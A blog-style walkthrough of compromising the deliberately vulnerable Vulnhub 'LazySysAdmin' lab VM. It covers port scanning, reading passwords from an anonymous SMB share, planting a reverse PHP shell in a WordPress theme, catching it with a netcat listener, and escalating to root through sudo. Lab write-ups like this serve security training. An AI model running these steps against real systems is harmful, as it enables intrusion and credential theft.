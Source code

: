 ```yaml
---
layout:     post
title:      "Vulnhub.com - LazySysAdmin: 1"
date:       2018-09-18 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Vulnhub
---
```


Another day, another machine from Vulnhub. This time it's the one called **LazySysAdmin**.

{% highlight text %}
Name: LazySysAdmin 1.0

Author: Togie Mcdogie

Twitter: @TogieMcdogie

[Description]

Difficulty: Beginner - Intermediate

Boot2root created out of frustration from failing my first OSCP exam attempt.

Aimed at:

      > Teaching newcomers the basics of Linux enumeration
      > Myself, I suck with Linux and wanted to learn more about each service whilst creating a playground for others to learn

Special thanks to @RobertWinkel @dooktwit for hosting LazySysAdmin at Sectalks Brisbane BNE0x18

[Lore]

LazySysadmin - The story of a lonely and lazy sysadmin who cries himself to sleep

[Tested with]

    Virtualbox
    Vnware Workstation player

[Preffered setup]

Host only networking

[Hints]

    Enumeration is key
    Try Harder
    Look in front of you
    Tweet @togiemcdogie if you need more hints

[Other]

    What could you of done to speed up the enumeration process?
    Are there any obvious things that you missed, which you shouldnt of missed?
    Did you learn anything interesting?
    What have you added to your enumeration process to prevent you from wasting time?

[Checksum]

    Name: Lazysysadmin.zip
    Size: 501925265 bytes (478 MB)
    SHA256: DBAC88A2E76FD5A6693A2890030DD3BE0DC2C09F30B43A79BE8AB7A23B708EF5

{% endhighlight %}

* Author: [@TogieMcdogie ](https://twitter.com/@TogieMcdogie)
* Download: [https://www.vulnhub.com/entry/lazysysadmin-1,205/](https://www.vulnhub.com/entry/lazysysadmin-1,205/)

### Solution

First thing we have to do is to scan the machine for open services. 

{% highlight text %}
root@kali:~/vulnhub# nmap -sC -sV -A 10.0.0.25
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-17 14:10 EDT
Nmap scan report for 10.0.0.25
Host is up (0.00089s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 10.0.0.4
|_  error: Closing link: (nmap@10.0.0.4) [Client exited]
MAC Address: 08:00:27:1E:2E:64 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: 0s
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2018-09-18T04:11:05+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2018-09-17 14:11:05
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.89 ms 10.0.0.25

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.96 seconds
{% endhighlight %}

We can already see a bunch of open ports, but for now, we're going to focus on port `80`. 

{% highlight text %}
root@kali:~/vulnhub# curl 10.0.0.25/robots.txt
User-agent: *
Disallow: /old/
Disallow: /test/
Disallow: /TR2/
Disallow: /Backnode_files/
{% endhighlight %}

That's a bunch of directories, but only `/Backnode_files/` wasn't empty. From there we get the directory of called `wordpress`, to which we can navigate using the browser.  

![Wordpress directory](/img/lazysysadmin/wordpress_dir.png){:class="img-responsive center-block"}

But in the meantime, I stumbled upon something very interesting - `smb` share can be accessed by `anonymous` user. And there's a lot of goodies.

![Smb shares](/img/lazysysadmin/smb-shares.png){:class="img-responsive center-block"}

{% highlight text %}
root@kali:/run/user/0/gvfs/smb-share:server=10.0.0.25,share=share$# ls -la
total 38
drwx------ 1 root root     0 Aug 15  2017 .
dr-x------ 3 root root     0 Sep 17 13:53 ..
drwx------ 1 root root     0 Aug 14  2017 apache
drwx------ 1 root root     0 Aug 14  2017 Backnode_files
-rwx------ 1 root root   139 Aug 14  2017 deets.txt
-rwx------ 1 root root 36072 Aug  6  2017 index.html
-rwx------ 1 root root    20 Aug 15  2017 info.php
drwx------ 1 root root     0 Aug 14  2017 old
-rwx------ 1 root root    92 Aug 14  2017 robots.txt
drwx------ 1 root root     0 Aug 14  2017 test
-rwx------ 1 root root    79 Aug 14  2017 todolist.txt
drwx------ 1 root root     0 Sep 17 14:17 wordpress
drwx------ 1 root root     0 Aug 15  2017 wp
{% endhighlight %}

Firstly, let's view the `todolist.txt` and `deets.txt`.

{% highlight text %}
root@kali:/run/user/0/gvfs/smb-share:server=10.0.0.25,share=share$# cat todolist.txt
Prevent users from being able to view to web root using the local file browser

root@kali:/run/user/0/gvfs/smb-share:server=10.0.0.25,share=share$# cat deets.txt
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
{% endhighlight %}

It seems that we have the password, but to which account? Wordpress didn't work so I decided to move on with the `smb` share. Maybe we'll find something interesting in the `wordpress` directory?

{% highlight text %}
root@kali:/run/user/0/gvfs/smb-share:server=10.0.0.25,share=share$# cd wordpress/
root@kali:/run/user/0/gvfs/smb-share:server=10.0.0.25,share=share$/wordpress# cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
{% endhighlight %}

Great, we have the `MySQL` credentials. Unluckily, when we want to view the `wp-users` table, we are greeted with this error.

{% highlight text %}
Error

SQL query: DocumentationEdit Edit

SELECT `prefs`
FROM `phpmyadmin`.`pma_table_uiprefs`
WHERE `username` = 'Admin'
AND `db_name` = 'wordpress'
AND `table_name` = 'wp_users'

MySQL said: Documentation
#1142 - SELECT command denied to user 'Admin'@'localhost' for table 'pma_table_uiprefs'
{% endhighlight %}

Moving on with my attack, I decided to look at the login page in `Wordpress`. If the password to `MySQL`, maybe the `Wordpress` one will be similar? 

But nope, password to `Admin` account is the same as to `MySQL`. Don't reuse your passwords!

After logging in, I decided to paste the reverse php shell in `404.php` page of twentyfifteen theme.

![Reverse shell in theme](/img/lazysysadmin/themes-reverse.png){:class="img-responsive center-block"}

After that, change the essential info about your IP and port to use, and navigate to `10.0.0.25/wordpress/wp-content/themes/twentyfifteen/404.php`. 

In the meantime, run a listener. 

{% highlight text %}
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.25: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.25] 57138
Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 05:26:58 up  1:19,  0 users,  load average: 0.00, 0.05, 2.51
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
{% endhighlight %}

Great, we have the connection. From the directories, we know that there is only one user `togie`. 

{% highlight text %}
$ cd /home      
$ ls -la
total 12
drwxr-xr-x  3 root  root  4096 Aug 14  2017 .
drwxr-xr-x 22 root  root  4096 Aug 21  2017 ..
drwxr-xr-x  3 togie togie 4096 Aug 15  2017 togie
$ python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

Remember the password from the note earlier on? Maybe it will work for this account? 

{% highlight text %}
www-data@LazySysAdmin:/$ su togie
su togie
Password: 12345
togie@LazySysAdmin:/$
{% endhighlight %}

In addition, upon first things to find was that the `togie` user can run anything as `root`!

{% highlight text %}
togie@LazySysAdmin:/$ sudo  -l
sudo  -l
[sudo] password for togie: 12345

Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
togie@LazySysAdmin:/$ sudo su
sudo su
root@LazySysAdmin:/# cd /root
cd /root
root@LazySysAdmin:~# ls -la
ls -la
total 28
drwx------  3 root root 4096 Aug 15  2017 .
drwxr-xr-x 22 root root 4096 Aug 21  2017 ..
-rw-------  1 root root 1000 Aug 21  2017 .bash_history
-rw-r--r--  1 root root 3106 Feb 20  2014 .bashrc
drwx------  2 root root 4096 Aug 14  2017 .cache
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-r--r--  1 root root  347 Aug 21  2017 proof.txt
root@LazySysAdmin:~# cat proof.txt
cat proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
{% endhighlight %}